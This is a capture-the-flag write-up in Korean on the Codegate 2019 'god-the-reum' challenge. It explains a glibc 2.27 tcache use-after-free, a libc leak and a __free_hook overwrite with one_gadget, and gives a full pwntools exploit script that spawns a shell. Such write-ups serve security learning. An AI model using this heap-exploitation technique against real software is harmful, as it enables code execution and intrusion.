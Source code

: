 ```yaml
---
title: "2019 Codegate god-the-reum"
date: 2020-3-16
ctf: Codegate CTF
layout: post
published : false
---
```


* tcache exploit (glibc 2.27)
*  UAF
* __free_hook overwrite

```
[*] '/vagrant/ctf/god-the-reum'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Structure

```
struct wallet{
    char* address;
    int*  ballence;
}
```

1. 0x420크기 이상의 청크 하나와 tcache에 들어갈만한 청크를 할당 후 withdraw 메뉴에서 free해줘서 unsorted bin을 leak해줄 수 있다.

2.  그리고 tcache bin에 들어가있는 청크의 fd를 __free_hook으로 overwrite해준다. (hidden menu UAF)

3. 그리고 청크 두개를 할당하고 __free_hook을 one_gadget으로 덮어준다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./god-the-reum')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process('./god-the-reum')
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def create(size):
	sla('select your choice :','1')
	sla('how much initial eth? :',str(size))

def deposit(idx,size): # append
	sla('select your choice :','2')
	sla('input wallet no :',str(idx))
	sla('how much deposit? :',str(size))

def withdraw(idx,size): # pop
	sla('select your choice :','3')
	sla('input wallet no :',str(idx))
	sla('how much you wanna withdraw? :',str(size))

def show():
	sla('select your choice :','4')

def quit():
	sla('select your choice :','5')

def hidden(idx,eth):
	sla('select your choice :','6')
	sla('input wallet no :',str(idx))
	sla('new eth :',eth)

create(0x420) # 0
create(0x60) # 1
withdraw(0,0x420)
show()
p.recvuntil('ballance ')
libc_base = int(p.recvline().strip()) - 0x3ebca0
log.info('libc_base : {}'.format(hex(libc_base)))
free_hook = libc_base + libc.symbols['__free_hook']
one_shot = libc_base + 0x10a38c

withdraw(1,0x60)
hidden(1,p64(free_hook))
create(0x60) # 2
create(0x60) # 3
hidden(3,p64(one_shot))

withdraw(2,0x60)

p.interactive()
```

